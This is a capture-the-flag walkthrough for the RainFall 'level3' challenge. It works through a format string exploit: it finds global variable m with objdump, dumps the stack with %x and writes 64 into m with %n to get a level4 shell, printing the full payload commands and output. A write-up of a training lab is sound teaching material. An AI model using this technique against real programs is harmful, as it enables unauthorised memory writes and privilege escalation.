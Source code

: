# Level3
Level3 is about abusing global variables 

# Tools
GDB

# Walkthrough
The home of level3 contains a binary, called level3. 

Using dogbolt, we can decompile the binary and we see a global variable m, and a `printf` taking some user input as the formatted string.

This can be leveraged to perform some formatted string exploits.

Using `objdump -t`, we can get the address of m on the stack:
```bash
objdump -t level3
...
804988c g     O .bss	00000004              m
...
```

Using the `printf` bug, we can see the content of the stack using `%x` formatters. We see that we started writing 3 addresses after we started dumping data (we write the address first, `804988c`, which is written by the fourth `%x`).

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%x " * 19)' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0 804988c 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 
```

`%x` formatters pop data from the stack, when the `%n` push the length of what has already been written on the stack.

Before giving us access to the terminal, the programme checks whether m is 64 or not. Thus, we need to write 64 characters before pushing that value onto the stack and modifying the value of m. 

We need the 3 `%x` to pop enough data from to stack to write at the proper place, which accounts for `200 b7fd1ac0 b7ff37d0 ` -> 22 characters.
The address of m, `"\x8c\x98\x04\x08"` is 4 characters.
Thus we need to write 64 - 22 - 4 = 38 padding characters. 
Finally, we push the value with `%n`.

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 38 + "%x " * 3 + "%n")' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0
Wait what?!
whoami
level4
```

# Resources
[2001 Paper on Formatted Strings exploits](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
[Exploiting Formatted Strings](https://security.stackexchange.com/questions/174696/how-to-exploit-variables-value#comment335877_174730)
[OWASP Formatted String Exploit](https://owasp.org/www-community/attacks/Format_string_attack)
[LiveOverflow's Binary Exploit 0x11 - Formatted Strings](https://www.youtube.com/watch?v=0WvrSfcdq1I)
